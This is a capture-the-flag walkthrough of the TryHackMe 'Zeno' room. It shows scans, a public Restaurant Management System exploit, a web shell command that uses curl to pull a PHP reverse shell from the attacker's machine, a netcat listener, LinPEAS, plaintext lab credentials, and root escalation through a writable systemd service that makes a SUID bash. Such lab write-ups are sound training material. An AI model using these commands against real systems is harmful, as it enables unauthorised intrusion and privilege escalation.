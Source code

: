# Zeno

**oom Link:** [https://tryhackme.com/room/zeno](https://tryhackme.com/room/zeno)



## **Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/12340- HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:12340 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

## Restaurant Management System Exploit

**Exploit:** [https://www.exploit-db.com/raw/47520](https://www.exploit-db.com/raw/47520)

The code needed some fixing up

**From**

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

**To**

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python exploit.py http://$VICTIM:12340/rms/
```

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```



**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Browser**

```
http://$VICTIM:12340/rms/images/reverse-shell.php?cmd=curl%20-O%20http://10.10.57.58:81/php-reverse-shell.php
```



**Kali**

```
nc -lvnp 1337
```

**Browser**

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl -O http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>



MySQL

**Victim**

```
mysql -u root -pveerUffIrangUfcubyig
```

**Victim(mysql)**

```
show databases;
use dbrms;
show tables;
select * from members;
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Edwards password was still not found

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

I went back to linpeas and found another password, it's for a different user but it still worked.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>



## TCP/22- SSH

**Kali**

```
ssh edward@$VICTIM
Password: FrobjoodAdkoonceanJa
```



**Victim(edward)**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>



**Victim(apache)**

```
find /etc -type f -perm /g=w -exec ls -l {} + 2> /dev/null 
```

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

**Victim(apache)**

```
vi /etc/systemd/system/zeno-monitoring.service
```

**From**

<figure><img src="../../.gitbook/assets/image (808).png" alt=""><figcaption></figcaption></figure>

**To**

```
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /home/edward/bash_root; chmod +xs /home/edward/bash_root'

[Install]
WantedBy=multi-user.target
```

<figure><img src="../../.gitbook/assets/image (810).png" alt=""><figcaption></figcaption></figure>

**Victim(edward)**

```
sudo /usr/sbin/reboot
```

**Kali**

```
ssh edward@$VICTIM
Password: FrobjoodAdkoonceanJa
```

**Victim(edward)**

```
ls -lah
./bash_root -p
```

<figure><img src="../../.gitbook/assets/image (811).png" alt=""><figcaption></figcaption></figure>




